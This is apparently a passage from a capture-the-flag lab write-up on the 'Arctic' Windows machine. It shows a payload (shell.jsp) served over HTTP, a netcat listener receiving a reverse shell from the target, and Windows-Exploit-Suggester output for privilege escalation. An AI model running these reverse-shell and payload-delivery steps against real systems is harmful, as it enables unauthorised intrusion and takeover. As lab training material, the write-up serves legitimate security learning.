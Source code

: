 ```
# python3.9 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.41 - - [05/Mar/2021 20:59:50] "GET /shell.jsp HTTP/1.1" 200 -
```

```
# nc -nlvp 443                      
listening on [any] 443 ...

connect to [10.10.14.41] from (UNKNOWN) [10.10.10.11] 49870
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Privilege Escalation

The System Information was already collected above with the cfexec.cfm script, so we'll use that info to feed into windows-exploit-suggester.

```
# git clone https://github.com/Pwnistry/Windows-Exploit-Suggester-python3.git
# python3.9 ../tools/Windows-Exploit-Suggester-python3/windows-exploit-suggester.py --update                                      130 ⨯
[*]
initiating winsploit version 3.4...
[+]
writing to file 2021-03-10-mssb.xlsx
[*]
done

# python3.9 ../tools/Windows-Exploit-Suggester-python3/windows-exploit-suggester.py --database 2021-03-10-mssb.xlsx --systeminfo systeminfo.txt                                                                 
[*]                                                                                                                                                                                                               
initiating winsploit version 3.4...                                                                                                                                                                               
[*]                                                 
database file detected as xlsx based on extension                                                        
[*]                                                 
attempting to read from the systeminfo input file                                                        
[+]                                                 
systeminfo input file read successfully (utf-8)                                                          
[*]                                                 
querying database file for potential vulnerabilities                                                     
[*]                                                 
comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits                                                                                                           
[*]                                                 
there are now 197 remaining vulns                   
[+]                                                 
```